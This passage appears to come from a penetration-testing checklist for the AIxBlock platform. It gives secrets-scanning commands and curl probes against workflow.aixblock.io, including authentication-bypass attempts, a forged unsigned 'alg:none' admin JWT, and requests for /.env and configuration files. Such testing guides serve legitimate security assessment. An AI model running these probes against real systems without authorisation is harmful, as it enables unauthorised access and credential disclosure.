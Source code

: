 ```bash
```

### **3. Secrets Detection Methods**
```bash
# TruffleHog - Secrets detection
trufflehog filesystem . --json --output=trufflehog-results.json

# GitLeaks - Git secrets scanner
gitleaks detect --source . --report-format json --report-path gitleaks-results.json

# Manual secrets review
grep -r "password\|secret\|key\|token\|api_key\|private_key" . \
  --include="*.py" --include="*.js" --include="*.ts" --include="*.json" \
  --include="*.env" --include="*.config" --include="*.yml" --include="*.yaml"
```

### **4. Authentication & Authorization Testing**
```bash
# Test authentication bypass
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Authorization: Bearer invalid-token" -v
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Authorization: Bearer " -v
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Authorization: " -v

# Test SAML endpoints
curl -s "https://workflow.aixblock.io/api/v1/authn/saml/acs" -v
curl -s "https://workflow.aixblock.io/api/v1/authn/saml/metadata" -v

# Test webhook endpoints
curl -s "https://workflow.aixblock.io/api/v1/webhooks" -v
curl -s "https://webhook.aixblock.io/api/v1/webhooks" -v

# Test JWT manipulation
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9." -v
```

### **5. Information Disclosure Testing**
```bash
# Configuration endpoints
curl -s "https://workflow.aixblock.io/api/v1/flags" -v > config_disclosure_poc.json
curl -s "https://workflow.aixblock.io/api/v1/config" -v
curl -s "https://workflow.aixblock.io/api/v1/settings" -v

# Error message analysis
curl -s "https://workflow.aixblock.io/nonexistent" -v
curl -s "https://workflow.aixblock.io/api/v1/invalid" -v

# Version disclosure
curl -s "https://workflow.aixblock.io/api/v1/version" -v
curl -s "https://workflow.aixblock.io/api/v1/health" -v

# Directory enumeration
curl -s "https://workflow.aixblock.io/.env" -v
curl -s "https://workflow.aixblock.io/config.json" -v
curl -s "https://workflow.aixblock.io/package.json" -v
```
